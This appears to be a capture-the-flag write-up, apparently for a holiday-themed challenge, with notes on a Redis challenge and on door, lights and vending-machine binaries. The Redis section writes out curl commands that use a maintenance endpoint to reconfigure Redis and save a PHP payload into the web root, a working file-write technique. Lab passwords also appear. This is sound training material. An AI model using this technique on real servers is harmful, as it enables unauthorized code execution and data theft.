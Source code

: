 			   

### Redis Bug Hunt


Useful information here: https://book.hacktricks.xyz/pentesting/6379-pentesting-redis


curl http://localhost/maintenance.php?cmd=config,get,*

dbfilename
dump.rdb
requirepass
R3disp@ss

redis-cli --raw -a R3disp@ss config get *

Success using the following:

curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html

curl http://localhost/maintenance.php?cmd=config,set,dbfilename,rawr.php

curl http://localhost/maintenance.php?cmd=set,test,%22%3C%3Fphp+echo%28file_get_contents%28%27index.php%27%29%29%3B+%3F%3E%22


curl http://localhost/maintenance.php?cmd=save

curl --output - 127.0.0.1/rawr.php


### Speaker Unpreperdness room

For the door binary use: strings door
After looking through the output we find:
Be sure to finish the challenge in prod: And don't forget, the password is "Op3nTheD00r"

Using Op3nTheD00r will open the door

For the lights binary, it points us towards the lights.conf file

Viewing the file with cat reveals:
password: E$ed633d885dcb9b2f3f0118361de4d57752712c27c5316a95d9e5e5b124
name: elf-technician

The password looks like a hash, and trying it doesn't work. 

Bushy Evergreen gives us a great hint here. The program will decrypt any value in the file that's matched with a key. So if we replace the name with the encrypted password then it will give us back the unencrpyted password: Computer-TurnLightsOn
Entering that as the password will turn the lights on!

For the vending machine binary the conf file has the following
{
  "name": "elf-maintenance",
  "password": "LVEdQPpBwr"
}

Bushy Evergreen suggested that this password is the product of a simple cipher. 
